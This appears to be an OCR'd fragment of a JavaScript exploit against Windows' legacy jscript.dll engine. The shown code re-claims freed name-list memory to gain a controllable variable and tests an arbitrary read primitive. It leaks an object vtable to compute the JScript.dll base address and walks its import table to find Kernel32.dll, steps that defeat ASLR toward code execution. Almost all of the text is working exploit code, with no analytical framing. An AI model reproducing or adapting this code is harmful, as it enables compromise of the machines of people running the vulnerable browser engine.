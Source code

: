         // Re-claim with leaked VVAL name property address vars (this is the memory address of the mutable variable that will be created)

        NewUntrackedVarSet();

        for(var i = 0; i < NameListAnchorCount; i++) {
            NameListAnchors[i][PrimaryVvalPropName] = 1;
        }

        for(var i = 0; i < UntrackedVarSet.length; i++) {
            if(typeof UntrackedVarSet[i] === "number") {
                if(UntrackedVarSet[i] + "" == 0x22) {
                    MutableVar = UntrackedVarSet[i];
                    break;
                }
            }
        }

        // Verify the mutable var can be changed via simple re-claim

        ReClaimNameList(0, CreateVar64(0x3, 0x33, 0, 0, 0));

        if(MutableVar + "" != 0x33) {
            DebugLog("Failed to verify mutable variable modification via re-claim");
            return 0;
        }

        // Test arbitrary read primitive

        var MutableVarAddress = MakeQword(LeakedVvalAddress.high, LeakedVvalAddress.low + 0x40);

        if(LeakByte64(MutableVarAddress) != 0x8) { // Change mutable var to a BSTR pointing at itself.
            DebugLog("Memory leak test failed");
            return 0;
        }

        // Derive jscript.dll base from leaked Object vtable

        var DissectedObj = new Object();
        var ObjectAddress = LeakObjectAddress64(LeakedVvalAddress, DissectedObj);
        var VtableAddress = LeakQword64(ObjectAddress);
        var JScriptBase = DiveModuleBase64(VtableAddress);

        if(!JScriptBase.low && !JScriptBase.high) {
            DebugLog("Failed to leak JScript.dll base address");
            return 0;
        }
        else {
            DebugLog("Leaked JScript base address: 0x" + JScriptBase.high.toString(16) + JScriptBase.low.toString(16));
        }

        // Extract the first Kernel32.dll import from Jscript.dll IAT to dive for its base

        var Kernel32Base = BaseFromImports64(JScriptBase, [0x4e52454b, 0x32334c45]);

        if(!Kernel32Base.low && !Kernel32Base.high) {
            DebugLog("Kernel32.dll base resolution via Jscript.dll imports failed.");
            return 0;
        }
        else {
            DebugLog("Leaked KERNEL32.DLL base address: 0x" + Kernel32Base.high.toString(16) + Kernel32Base.low.toString(16));
        }
